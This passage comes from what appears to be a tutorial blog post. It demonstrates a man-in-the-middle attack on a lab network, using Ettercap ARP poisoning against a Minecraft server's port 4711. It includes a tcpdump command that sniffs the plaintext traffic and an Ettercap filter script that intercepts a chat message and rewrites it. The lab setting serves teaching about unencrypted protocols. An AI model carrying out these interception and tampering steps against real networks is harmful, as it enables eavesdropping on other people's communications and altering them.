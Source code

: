 Next, select the targeted hosts by clicking on the victim's IP and then click on *Add to Target 1*, do the same with the server's IP but instead click on *Add to Target 2*. Now the tool will focus on the MiTM attack between the selected targets.


### MiTM Phase 1: Expose the Server/Client Conversation 

After finishing the scanning phase, let's go ahead and start the first phase of the attack which reveals the conversation between the targeted parties. 

We are going to run `ARP Poisoning` attack by click on ![](/img/posts/ettercap-mitm.webp) then choose `ARP Poisoning`.

Now your machine is in line between the server and the client. That is, you can see everything being sent between the server and the client. Confirm that by opening wireshark or tcpdump. For example, open the terminal and run this command:

```bash
tcpdump -A -i eth1 port 4711 and host 192.168.56.110
```

Now go to the client machine and re-run the python script to send the hello message again, then return to the attacker and you will see something like this:

```bash
04:05:09.845686 IP 192.168.56.110.39210 > 192.168.56.1.4711: Flags [P.], seq 1:28, ack 1, win 229, options [nop,nop,TS val 1057102917 ecr 39383616], length 27
E..O.@@.@..B..8n..8g.*.g@.C._@.............
?..E.X.@chat.post(Hello Minecraft Server)
```
As you can see the message is visible and has no encryption in place.


### MiTM Phase 2: Manipulate the Server/Client Conversation

This is the phase of the attack when we are going to the extreme. After disclosing the messages by `tcpdump` above, we are going now to capture the message from traffic, modify it, then send it back to its destination. To do this, Ettercap provides a `filter` which is a script that ettercap uses to know what to do with the traffic that's being captured. In this demo, we will use a simple script that will search for the message that we are targeting and then replace it with some other message. Here is the script that will be used:

```bash
if (ip.proto == TCP && tcp.dst == 4711 && search(DATA.data, "Hello Minecraft Server") ) {
   log(DATA.data, "/tmp/ettercap.log");
   replace("Hello Minecraft Server", "This Message is Hacked");
   msg("Altered Client Message\n");
} 
```

Let's explain this script..

At the first line, we have the `if` clause where we ask ettercap to look for TCP traffic `ip.proto == TCP`, the port is being connected to is 4711 `tcp.dst == 4711`, and when the data stream being sent from one target to another contains that hello message `search(DATA.data, "Hello Minecraft Server")`
